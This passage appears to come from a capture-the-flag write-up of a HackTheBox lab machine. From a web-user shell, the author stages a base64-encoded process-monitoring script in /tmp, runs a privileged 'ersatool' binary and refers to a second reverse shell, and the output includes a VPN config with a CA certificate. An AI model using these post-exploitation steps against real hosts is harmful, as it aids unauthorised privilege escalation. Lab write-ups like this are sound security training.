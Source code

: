 ```console
www-data@pki:/tmp$ echo 'IyEvYmluL2Jhc2gKCm9sZF9wcm9jZXNzPSQocHMgLWVvIGNvbW1hbmQpCndoaWxlIHRydWU7IGRv
CiAgbmV3X3Byb2Nlc3M9JChwcyAtZW8gY29tbWFuZCkKICBkaWZmIDwoZWNobyAiJG9sZF9wcm9j
ZXNzIikgPChlY2hvICIkbmV3X3Byb2Nlc3MiKSB8IGdyZXAgLXYgImt3b3JrZXIiCiAgb2xkX3By' | base64 -d > process.sh
www-data@pki:/tmp$ chmod +x process.sh
```

In a separate reverse shell I've executed **ersatool** binary invoking **createCN** function while in the other I runned **process.sh** (The process to get a reverse shell is the same, I'll do on port 9998).

```console
www-data@pki:/$ ersatool
# create
create->CN=asd
client
dev tun9
proto udp
remote vpn.static.htb 1194
resolv-retry infinite
nobind
user nobody
group nogroup
persist-key
persist-tun

remote-cert-tls server

cipher AES-256-CBC
#auth SHA256
key-direction 1
verb 3
<ca>
-----BEGIN CERTIFICATE-----
MIIDRzCCAi+gAwIBAgIUR+mYrXHJORV4tbg81sQS7RfjYK4wDQYJKoZIhvcNAQEL
BQAwFDESMBAGA1UEAwwJc3RhdGljLWd3MCAXDTIwMDMyMjEwMTYwMVoYDzIxMjAw
MjI3MTAxNjAxWjAUMRIwEAYDVQQDDAlzdGF0aWMtZ3cwggEiMA0GCSqGSIb3DQEB
AQUAA4IBDwAwggEKAoIBAQDCA/rLO4l5goACROYshzlVowO7hAl+EDgAUof3VSph
1UF2OCCr2J2xpOkkWHKFPCTl+fCtLcxKZdb5zQBKhIvxJ3Tzqe18whu23aI8Imol
AQcqZcaSMTRXAp8HKsrxpXl8TtbZ2y4nAVR0YXAWOadSMQtmztiOgzDAP+FbqZQf
CnKBW+yxNxjlrD/VpVf/C9GnXDn+QH2ezoOYCid6+ANuiSTqks3FzEnUrwuVMgxp
MW94Sw/2d8WbUfD5DxKvyHObjDwwZn54ZNz8WEXzTfqTtFD1ghNsvVJgvsDmyMYh
7nDfRSxNc3cEY8FOVvvaA3BvPP06xVEz0GrJkfUNjyvFAgMBAAGjgY4wgYswHQYD
VR0OBBYEFKHag2AygX8bgBngIC3WYMil7YJUME8GA1UdIwRIMEaAFKHag2AygX8b
gBngIC3WYMil7YJUoRikFjAUMRIwEAYDVQQDDAlzdGF0aWMtZ3eCFEfpmK1xyTkV
eLW4PNbEEu0X42CuMAwGA1UdEwQFMAMBAf8wCwYDVR0PBAQDAgEGMA0GCSqGSIb3
DQEBCwUAA4IBAQAG/yziZ6ae3f//fsOmU0GBLwKzWGzQxdykHAwN6452Mt3FHT7A
0+aT+C9DWmx4r71PD8RIDI9eDdOu9RZ8VoutZuZrhca5SpLoGfIFnmveNzy0mcf7
a/AQCH/XSOr8+FkF6UGXUK80lylqe3R/1YXct3htZZEPuSBDdi6zPMrq4UaGCPkY
bOFXVZZA7KHkzt5F8ajGs7xbTNTarOsPjdhN75dMfnG1w8upw1DLb1LE8QTP00fQ
i0wzJtUvYetL96vt/mbo8AuYZmWWmOzm1mJLNn4UbhG65/mHfBWHduRy1YZeeiuI
qYSaD5L082aZQj/S+qfTgkRiT2nduN1pZURn
-----END CERTIFICATE-----
</ca>
<cert>
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            6d:9a:3b:b3:6a:e9:9b:7c:5b:f2:ad:9b:e1:b5:45:e8
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: CN=static-gw
        Validity
```